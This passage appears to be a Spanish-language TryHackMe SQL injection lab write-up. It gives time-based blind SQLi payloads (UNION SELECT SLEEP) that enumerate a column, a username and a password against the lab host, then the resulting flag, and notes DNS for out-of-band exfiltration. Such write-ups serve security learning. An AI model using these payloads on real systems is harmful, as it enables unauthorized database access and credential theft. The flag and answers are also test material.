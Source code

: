 #### Intentamos adivinar el nombre de los campos
```
https://website.thm/analytics?referrer=referrer=admin123' UNION SELECT SLEEP(5),2 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_four' and TABLE_NAME='users' and COLUMN_NAME like 'username';--

Request Time: 5.004

```

#### Intentamos obtener nombres de usuarios

```
https://website.thm/analytics?referrer=referrer=admin123' UNION SELECT SLEEP(5),2 from users where username like 'admin';--
Request Time: 5.004
```

#### Intentamos adivinar el password

```
https://website.thm/analytics?referrer=referrer=admin123' UNION SELECT SLEEP(5),2 from users where username='admin' and password like '3%';--

https://website.thm/analytics?referrer=referrer=admin123' UNION SELECT SLEEP(5),2 from users where username='admin' and password like '4961%';--

```

#### Nos logueamos con: `admin` y `4961`

```
THM{SQL_INJECTION_MASTER}
```

## Task 9 - Out-of-Band SQLi

### Name a protocol beginning with D that can be used to exfiltrate data from a database.

	DNS

## Task 10- Remediation